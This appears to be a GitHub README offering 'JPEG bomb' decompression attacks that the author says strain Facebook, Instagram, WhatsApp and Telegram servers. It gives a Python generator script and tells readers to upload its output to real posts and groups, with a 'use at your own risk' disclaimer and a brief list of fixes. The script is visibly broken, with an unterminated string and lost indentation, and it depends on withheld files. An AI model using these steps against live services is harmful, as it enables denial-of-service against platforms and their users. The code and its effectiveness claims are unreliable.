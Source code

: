 # jpeg-bombs
simple ac-vulnurabilty exploits for which facebook refused to pay me a bounty
they are highly cpu/ram strainful and work both on fb and instegram and whatsapp without any detection, causing huge server side strain on both fb/instegram/wapp and even telgram  and any user who opens it / to whom it is sent to - it is cauysed because of the image handler fb and similar sites use, as of this date still isnt fixed, by me pablo rotem.
use at your own risk.]\
i am not reponsible for any damage -only sharing for anyone who might benefit from this in terms of security patching
and a personal advice - do not try to go to fb bounty program as they will not pay any bounty if they can tag it as ddos - this atack is anything but ddos - but its an advice - you can try and post future vulnurabilites and youll see the reposnse you ll get from fb security team..
i believe the reason for that is fb security employess simply do not wish to tell their employers they did a poor job - thus putting all their users ar risk instead of paying a bounty...
steps to reproduce : 
1. to create an ac atack - open the terminal and simply run the following after saving it as a file  to create these image bombs:
[notice the size is a nother major risk as if an atacker would alter the repeat steps - the impact would be much higher in exhation of higher memory and cpu.
here are the actual files youd need to build such a bomb :]
filename - jpeg_bomb.py
paste in that file the following : 


from options import Options
import os
options = Options()
options.add_option('size', 10, 'Size of decompressed JPEG in KB', list(range(10, 61, 10)))
options.add_option('color', 'gray', 'color scale', ['gray', 'rgb'])
Explanation = 'Produces JPEG compression bomb for given size and color scale.' \
'\n\n ' \
'JPEG bombs of certain sizes will be output.
NO_INPUT = True
DEFAULT_OUTPUT = 'file'
DEFAULT_OUTPUT_OPTIONS = {
'final_newline': False,
'format': 'binary'
}
def run(output):
size = str(options['size'])
color = options['color']
with open(os.path.join(os.path.dirname(os.path.realpath(__file__)), 'jpeg_bombs', color, size + 'K.jpeg'), 'rb') as f:
output.output([f.read()])

i cannot add the additional files needed to reproduce but i believe any security newbie will hae no trouble to guess... (i just dont wnat to be sued..) 
3. upload the produced image in any fb post/page/group/instegram and youll be ably to see the server side effct on the server!
4.this is an AC time attack as well as an ac disk/space atack and a CPU (AC time) vulnerability against the jpeg parser without going over any given memory ceiling
ill atch the entire source code which i havent yet shared on guithub - so you can fix it.
the fix ---
-----------
1.limit the max memory per image uplaod.
2. Input sanitization:
3. Don’t allow repeated filters
4 Limit the number of DCTDecode object per page
5.limit the number of any other jpeg deflate parser so it limits repeated objects in binary code or sanitize better repteaded field or empty files large in size

